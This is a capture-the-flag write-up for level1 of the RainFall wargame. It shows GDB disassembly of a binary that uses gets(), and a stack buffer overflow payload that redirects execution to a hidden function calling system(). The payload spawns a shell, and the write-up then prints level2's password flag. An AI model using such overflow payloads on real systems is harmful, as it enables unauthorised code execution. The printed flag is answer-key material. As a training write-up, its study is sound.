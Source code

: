 # level1

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

First, execute `level1` and play with it a little:

```console
level1@RainFall:~$ ./level1
ashaiuhsoiahsioahisoaoishoiasioahsoiaoisnaoinsoiansoiansoinaiosnaoinsoihfoahsoinasoidhiuawhdowdgligalugaidgalkgdgdiasgdias
Segmentation fault (core dumped)
```

Putting a lot of crap makes `level1` segfaulting that is to say it is not protected somewhere. Let's check what is
inside this binary `level1`:

```gdb
level1@RainFall:~$ gdb level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

So, we notice several functions such as: `main`, `run`, `gets`, `fwrite` and so on. Let's have a look at `main`:

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:    push   ebp                      ; Stack frame
   0x08048481 <+1>:    mov    ebp,esp                  ; initialization.
   0x08048483 <+3>:    and    esp,0xfffffff0           ; Stack frame alignment: rounding down to the nearest multiple of 16. 
   0x08048486 <+6>:    sub    esp,0x50                 ; Create the frame of size 0x50 (decimal 80).
   0x08048489 <+9>:    lea    eax,[esp+0x10]           ; The actual buffer starts at esp+0x10 (decimal 16).
   0x0804848d <+13>:   mov    DWORD PTR [esp],eax      ; The pointer to the beginning of the pointer will be the parameter of `<gets>`.
   0x08048490 <+16>:   call   0x8048340 <gets@plt>     ; Calling `<gets>`.
   0x08048495 <+21>:   leave
   0x08048496 <+22>:   ret
End of assembler dump.
```

Well, now we know more about `main`, if you dig into `gets` you will notice that it calls `_IO_getline` - thus a prompt
waiting for you to enter something followed by `return`. But, it is not significant for us here. We notice that function
`run` is never called! To convince yourself, just put a breakpoint onto this function and run. The program run as usual.

So, let's have a look at it:

```gdb
gdb-peda$ disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18                     ; The stack frame is 0x18 (decimal 24) bytes big.
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>       ; That is interesting! It calls `system`.
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```

Well, well, well. We have a call to `system` which executes code without other any checking. That's our entry point. Now
we are going to use one famous hacker technic: the *buffer overflow*.

## Exploit

In order to do so we are going to use the buffer initialize in `main`. The objectives are clear: thanks to `gets` we can
buffer overflow the `main` function and put afterwards a call to `run` (which starts at `0x08048444`).

To do so, we need to calculate the offset in order to override the `EIP` address. We are going to make it point to `run`
function. Thanks to this [online
tool](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) we know that the offset is of
76.

Let's create our string with 76 `A` and the address (the address is inverse because of the endianness):

```console
level1@RainFall:~$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/level1
```

And give it to `level1` executable:

```console
level1@RainFall:~$ cat /tmp/level1 - | ./level1
```

> `cat [file] -` means that `cat` open the file then stdin (`-`). Why that? A shell we execute wants some input. Since
> we want to open a new shell this new shell request for a `stdin`. If not, it closes. So nothing happen. So we provide
> it a standard input by adding `-` to `cat` command. An alternative could have been: `(python -c 'print "A" * 76 +
> "\x44\x84\x04\x08"'; cat) | ./level1`.

Finally:

```console
level1@RainFall:~$ cat /tmp/test - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
